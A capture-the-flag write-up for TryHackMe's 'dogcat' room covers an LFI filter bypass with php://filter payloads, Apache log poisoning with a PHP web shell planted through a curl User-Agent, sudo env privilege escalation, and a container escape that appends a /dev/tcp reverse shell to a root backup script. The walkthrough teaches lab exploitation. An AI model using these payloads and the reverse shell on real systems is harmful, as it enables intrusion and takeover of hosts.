




# [dogcat](https://tryhackme.com/room/dogcat)

## Getting Access

First off, `nmap`

```
# Nmap 7.91 scan initiated Sun Jun 13 15:48:41 2021 as: nmap -vvv -p 22,80 -sCV -oA init 10.10.91.107
Nmap scan report for box.ip (10.10.91.107)
Host is up, received conn-refused (0.36s latency).
Scanned at 2021-06-13 15:48:42 +07 for 20s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeKBugyQF6HXEU3mbcoDHQrassdoNtJToZ9jaNj4Sj9MrWISOmr0qkxNx2sHPxz89dR0ilnjCyT3YgcI5rtcwGT9RtSwlxcol5KuDveQGO8iYDgC/tjYYC9kefS1ymnbm0I4foYZh9S+erXAaXMO2Iac6nYk8jtkS2hg+vAx+7+5i4fiaLovQSYLd1R2Mu0DLnUIP7jJ1645aqYMnXxp/bi30SpJCchHeMx7zsBJpAMfpY9SYyz4jcgCGhEygvZ0jWJ+qx76/kaujl4IMZXarWAqchYufg57Hqb7KJE216q4MUUSHou1TPhJjVqk92a9rMUU2VZHJhERfMxFHVwn3H
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBouHlbsFayrqWaldHlTkZkkyVCu3jXPO1lT3oWtx/6dINbYBv0MTdTAMgXKtg6M/CVQGfjQqFS2l2wwj/4rT0s=
|   256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfp73VYZTWg6dtrDGS/d5NoJjoc4q0Fi0Gsg3Dl+M3I
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 13 15:49:02 2021 -- 1 IP address (1 host up) scanned in 20.82 seconds
```

Looking at the service on port 80, we have a page that shows random images of dogs and cats.



Looking at the URL, we have a parameter we can try injecting stuff with, so let's try LFI (local file inclusion)



> Sorry, only dogs or cats are allowed.

We seem to need "dog" or "cat" in the query, so let's try `/?view=cat/../../../../../etc/passwd`



> `Warning: include(cat/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24`
> `Warning: include(): Failed opening 'cat/../../../../../etc/passwd.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24`

Our payload made it pass the "dog/cat" filter but `/etc/passed` still can't be included. Looking at the error messages, we can see `.php` is appended to whatever file we're putting in the query so let's try to include a file we know exists: `index.php`



> `Fatal error: Cannot redeclare containsStr() (previously declared in /var/www/html/index.php:17) in /var/www/html/index.php on line 17`

The error message tells us the PHP file `index.php` was included and *executed*, as `containsStr()` was declared in `index.php` and then redeclared. It also tells us that `containsStr()` is likely one of the filters (or is the only filter) for our input in `view=`, checking whether or not the payload contains the string "dog" or "cat".

The above behavior indicates that the page uses the input of `view` to execute the appropriate PHP file, namely `dog.php` and `cat.php`. A PHP function that executes another PHP file is `include`, and of course it's commonly seen in PHP LFI vulnerabilities. Looking at [hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers), we see that we can exfiltrate files with the payload `php://filter/convert.base64-encode/resource=index.php`. Replacing the `index.php` with our custom payload to include the string "dog" and exclude the extension gives us: `php://filter/read=convert.base64-encode/resource=dog/../index`.

Using the above payload, we exfiltrate `index.php`.


The base64 gives us the following `index.php`

```html
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
      $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

We see here that we can control the appended extension with the `ext` parameter.

According to our `nmap` result, the server is running Apache, so we check its log file, which is `/var/log/apache2/access.log`, using the payload (set the `ext` parameter to remove `.php`):

```
/?ext=&view=php://filter/read=convert.base64-encode/resource=dog/../../../../../../../../var/log/apache2/access.log
```

Looking at the logs, we can see the `User-Agent` in the logs. With this, we can try log poisoning (read about it [here](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)) by editing the `User-Agent` in something like Burp Suite to include the PHP code `<?php system($_GET['c']); ?>`.

To poison the logs, make a request with some PHP code

```sh
curl 'http://box.ip/' -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
```

I've tried a bash reverse shell which doesn't work. We need to put a PHP reverse shell on the system, which can easily be done with `base64` and `echo`. With that, we should have a reverse shell.

## Privilege Escalation

Checking `sudo -l`, we get the following

```sh
$ sudo -l
Matching Defaults entries for www-data on c905b8476651:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on c905b8476651:
    (root) NOPASSWD: /usr/bin/env
```

[gtfobins](https://gtfobins.github.io/gtfobins/env/#shell) shows we can get a root shell with `env /bin/bash`

```sh
$ sudo env /bin/bash
id
uid=0(root) gid=0(root) groups=0(root)
```

With this, we can get a flag in `/root`. However, that's only flag 3. Checking `/`

```sh
ls -la /
total 80
drwxr-xr-x   1 root root 4096 Jun 13 10:20 .
drwxr-xr-x   1 root root 4096 Jun 13 10:20 ..
-rwxr-xr-x   1 root root    0 Jun 13 10:20 .dockerenv
drwxr-xr-x   1 root root 4096 Feb 26  2020 bin
drwxr-xr-x   2 root root 4096 Feb  1  2020 boot
drwxr-xr-x   5 root root  340 Jun 13 10:20 dev
drwxr-xr-x   1 root root 4096 Jun 13 10:20 etc
drwxr-xr-x   2 root root 4096 Feb  1  2020 home
drwxr-xr-x   1 root root 4096 Feb 26  2020 lib
drwxr-xr-x   2 root root 4096 Feb 24  2020 lib64
drwxr-xr-x   2 root root 4096 Feb 24  2020 media
drwxr-xr-x   2 root root 4096 Feb 24  2020 mnt
drwxr-xr-x   1 root root 4096 Jun 13 10:20 opt
dr-xr-xr-x 107 root root    0 Jun 13 10:20 proc
drwx------   1 root root 4096 Jun 13 10:56 root
drwxr-xr-x   1 root root 4096 Feb 26  2020 run
drwxr-xr-x   1 root root 4096 Feb 26  2020 sbin
drwxr-xr-x   2 root root 4096 Feb 24  2020 srv
dr-xr-xr-x  13 root root    0 Jun 13 10:48 sys
drwxrwxrwt   1 root root 4096 Mar 10  2020 tmp
drwxr-xr-x   1 root root 4096 Feb 24  2020 usr
drwxr-xr-x   1 root root 4096 Feb 26  2020 var
```

We have `.dockerenv` which means we're inside a docker container. To get the fourth flag, we need to break out of this container.

Looking at `/opt`, we see a `backups` directory with a `backup.sh` script

```sh
cd /opt
ls -la
total 12
drwxr-xr-x 1 root root 4096 Jun 13 10:20 .
drwxr-xr-x 1 root root 4096 Jun 13 10:20 ..
drwxr-xr-x 2 root root 4096 Apr  8  2020 backups

cd backups

ls -l
total 2884
-rwxr--r-- 1 root root      69 Mar 10  2020 backup.sh
-rw-r--r-- 1 root root 2949120 Jun 13 11:07 backup.tar

cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

Looking at the timestamp of `backup.tar`, we can assume that `backup.sh` is run regularly, possibly every minute. Assuming it's run by the parent machine, we can put in it a reverse shell.

```sh
echo "bash -c 'exec bash -i &>/dev/tcp/YOUR_IP/PORT <&1'" >> backup.sh
```

With that, you should get a shell on the parent machine and grab the final flag!
